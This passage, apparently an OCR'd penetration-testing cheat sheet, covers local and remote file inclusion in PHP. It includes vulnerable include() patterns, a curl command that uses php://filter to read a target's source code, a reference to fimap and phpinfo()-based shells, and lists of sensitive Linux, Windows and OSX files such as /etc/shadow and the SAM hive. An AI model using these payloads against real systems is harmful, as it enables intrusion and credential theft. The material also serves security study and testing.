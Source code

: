     - Local (LFI) and remote (RFI) file inclusion vulnerabilities are commonly found in poorly written PHP code.
    - fimap - There is a Python tool called fimap which can be leveraged to automate the exploitation of LFI/RFI vulnerabilities that are found in PHP (sqlmap for LFI):

[*https://github.com/kurobeats/fimap*](https://github.com/kurobeats/fimap)

        - Gaining a shell from phpinfo()

fimap + phpinfo() Exploit - If a phpinfo() file is present, it’s usually possible to get a shell, if you don’t know the location of the phpinfo file fimap can probe for it, or you could use a tool like OWASP DirBuster.

    - For Local File Inclusions look for the include() function in PHP code.

include("lang/".$_COOKIE['lang']);
include($_GET['page'].".php");

    - LFI - Encode and Decode a file using base64

curl -s http://$ip/?page=php://filter/convert.base64-encode/resource=index | grep -e '[^\ ]\{40,\}' | base64 -d

    - LFI - Download file with base 64 encoding

*http://$ip/index.php?page=php://filter/convert.base64-encode/resource=admin.php*

    - LFI Linux Files:

/etc/issue
/proc/version
/etc/profile
/etc/passwd
/etc/passwd
/etc/shadow
/root/.bash_history
/var/log/dmessage
/var/mail/root
/var/spool/cron/crontabs/root

    - LFI Windows Files:

%SYSTEMROOT%epair\system
%SYSTEMROOT%epair\SAM
%SYSTEMROOT%epair\SAM
%WINDIR%\win.ini
%SYSTEMDRIVE%\boot.ini
%WINDIR%\Panther\sysprep.inf
%WINDIR%\system32\config\AppEvent.Evt

    - LFI OSX Files:

/etc/fstab
/etc/master.passwd
/etc/resolv.conf
/etc/sudoers
/etc/sysctl.conf

